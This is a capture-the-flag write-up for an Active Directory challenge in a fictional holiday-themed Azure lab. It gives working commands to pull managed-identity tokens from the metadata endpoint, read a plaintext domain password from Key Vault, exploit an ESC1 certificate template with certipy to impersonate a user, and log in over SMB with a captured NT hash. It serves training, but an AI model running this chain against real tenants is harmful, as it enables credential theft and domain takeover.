






# Active Directory

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star:<br/>

## Objective

!!! question "Request"
    Go to Steampunk Island and help Ribb Bonbowford audit the Azure AD environment. What's the name of the secret file in the inaccessible folder on the _FileShare_?

??? quote "Ribb Bonbowford"
    Hello, I'm Ribb Bonbowford. Nice to meet you!<br>
    Oh golly! It looks like Alabaster deployed some vulnerable Azure Function App Code he got from ChatNPT.<br>
    Don't get me wrong, I'm all for testing new technologies. The problem is that Alabaster didn't review the generated code and used the Geese Islands Azure production environment for his testing.<br>
    I'm worried because our Active Directory server is hosted there and Wombley Cube's research department uses one of its fileshares to store their sensitive files.<br>
    I'd love for you to help with auditing our Azure and Active Directory configuration and ensure there's no way to access the research department's data.<br>
    Since you have access to Alabaster's SSH account that means you're already in the Azure environment. Knowing Alabaster, there might even be some useful tools in place already.

## Hints

??? tip "Useful Tools"
    It looks like Alabaster's SSH account has a couple of tools installed which might prove useful.

??? tip "Misconfiguration ADventures"
    Certificates are everywhere. Did you know Active Directory (AD) uses certificates as well? Apparently the service used to manage them can have misconfigurations too.

## Solution

Before completing this challenge, you must first complete [Certificate SSHenanigans](./certificate_sshenanigans.md).

Once on the ssh server, you can start finding a username and password for the AD server. To do this you must search the Azure configuration.<br>
First, get an access token.
```
response=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s)
access_token=$(echo $response | python -c 'import sys, json; print (json.load(sys.stdin)["access_token"])')
```

Next, you can check your permissions.

```
curl -X GET -H "Authorization: Bearer $access_token" -H "Content-Type: application/json" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourcegroups/northpole-rg1/providers/Microsoft.Authorization/permissions?api-version=2022-04-01
```

Response:

```json
{
    "value": [{
            "actions": ["Microsoft.KeyVault/vaults/read", "Microsoft.KeyVault/vaults/secrets/read", "Microsoft.Web/sites/sourcecontrols/Read", "microsoft.web/sites/functions/read", "Microsoft.Resources/subscriptions/resourceGroups/read"],
            "notActions": [],
            "dataActions": ["Microsoft.KeyVault/vaults/secrets/getSecret/action", "Microsoft.KeyVault/vaults/secrets/readMetadata/action"],
            "notDataActions": []
        }
    ]
}
```

It seems that we can read the key vaults. But we don't know the names of any key vaults, so we can list them.

```
curl -X GET -H "Authorization: Bearer $access_token" -H "Content-Type: application/json" "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resources?$filter=resourceType%20eq%20'Microsoft.KeyVault%2Fvaults'&api-version=2015-11-01"
```

Response:

```json hl_lines="4"
{
    "value": [{
            "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv",
            "name": "northpole-it-kv",
            "type": "Microsoft.KeyVault/vaults",
            "location": "eastus",
            "tags": {}
        }, {
            "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv",
            "name": "northpole-ssh-certs-kv",
            "type": "Microsoft.KeyVault/vaults",
            "location": "eastus",
            "tags": {}
        }
    ]
}
```

To check the vault secrets, you need the vault uri and the name of the secret.<br>
The uri is ```https://<vault-name>.vault.azure.net/```.<br>
To check the vault secrets, use the following for the first vault (northpole-it-kv).

```
curl -X GET -H "Authorization: Bearer $access_token" -H "Content-Type: application/json" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv/secrets?api-version=2022-07-01
```

Response:

```json hl_lines="4"
{
    "value": [{
            "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv/secrets/tmpAddUserScript",
            "name": "tmpAddUserScript",
            "type": "Microsoft.KeyVault/vaults/secrets",
            "location": "eastus",
            "tags": {},
            "properties": {
                "attributes": {
                    "enabled": true,
                    "created": 1699564823,
                    "updated": 1699564823
                },
                "secretUri": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript",
                "secretUriWithVersion": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/ec4db66008024699b19df44f5272248d"
            }
        }
    ]
}
```

To check the secret, you need a vault access token.

```
response=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s)
vault_access_token=$(echo $response | python -c 'import sys, json; print (json.load(sys.stdin)["access_token"])')
```

Now you can check the vault secret.

```
curl -X GET -H "Authorization: Bearer $vault_access_token" -H "Content-Type: application/json" https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript?api-version=7.4
```

```json hl_lines="2"
{
    "value": "Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru",
    "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/ec4db66008024699b19df44f5272248d",
    "attributes": {
        "enabled": true,
        "created": 1699564823,
        "updated": 1699564823,
        "recoveryLevel": "Recoverable+Purgeable",
        "recoverableDays": 90
    },
    "tags": {}
}
```

The secret contains a username (elfy) and a password (J4`ufC49/J4766). These can be used to connect to the AD server.<br>
Start by checking the server for vulnerabilities using ```certipy```.

```
certipy find -vulnerable -u elfy@10.0.0.53 -p J4\`ufC49/J4766
```



Next, read the output file.

```json hl_lines="24"
{
  "Certificate Authorities": {
    "0": {
      "CA Name": "northpole-npdc01-CA",
      "DNS Name": "npdc01.northpole.local",
      "Certificate Subject": "CN=northpole-npdc01-CA, DC=northpole, DC=local",
      ...
    }
  },
  "Certificate Templates": {
    "0": {
      "Template Name": "NorthPoleUsers",
      "Display Name": "NorthPoleUsers",
      "Certificate Authorities": [
        "northpole-npdc01-CA"
      ],
      "Enabled": true,
      "Client Authentication": true,
      "Enrollment Agent": false,
      "Any Purpose": false,
      "Enrollee Supplies Subject": true,
      ...
      "[!] Vulnerabilities": {
        "ESC1": "'NORTHPOLE.LOCAL\\\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication"
      }
    }
  }
}
```

The ```NorthPoleUsers``` certificate template can be exploited. To do this, we need a user to impersonate.

```
GetADUsers.py -all -dc-ip 10.0.0.53 northpole.local/elfy
```



Now request a new certificate.

```
certipy req -u elfy@northpole.local -p J4\`ufC49/J4766 -dc-ip 10.0.0.53 -target npdc01.northpole.local -ca northpole-npdc01-CA -template NorthPoleUsers -upn wombleycube@northpole.local
```



Next, get the authentication for Wombley.

```
certipy auth -pfx wombleycube.pfx -dc-ip 10.0.0.53
```



Now you can connect to the AD server using the hash.

```
smbclient.py -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23 -dc-ip 10.0.0.53 northpole.local/wombleycube@10.0.0.53
```



Once connected, find the file in the secret research folder.



!!! success "Answer"
    InstructionsForEnteringSatelliteGroundStation.txt

## Response

!!! quote "Ribb Bonbowford"
    Wow, nice work. I'm impressed!<br>
    This is all starting to feel like more than just a coincidence though. Everything Alabaster's been setting up lately with the help of ChatNPT contains all these vulnerabilities. It almost feels deliberate, if you ask me.<br>
    Now obviously an LLM AI like ChatNPT cannot have deliberate motivations itself. It's just a machine. But I wonder who could have built it and who is controlling it?<br>
    On top of that, we apparently have a satellite ground station on Geese Islands. I wonder where that thing would even be located.<br>
    Well, I guess it's probably somewhere on Space Island, but I've not been there yet.<br>
    I'm not a big fan of jungles, you see. I have this tendency to get lost in them.<br>
    Anyway, if you feel like investigating, that'd be where I'd go look.<br>
    Good luck and I'd try and steer clear of ChatNPT if I were you.
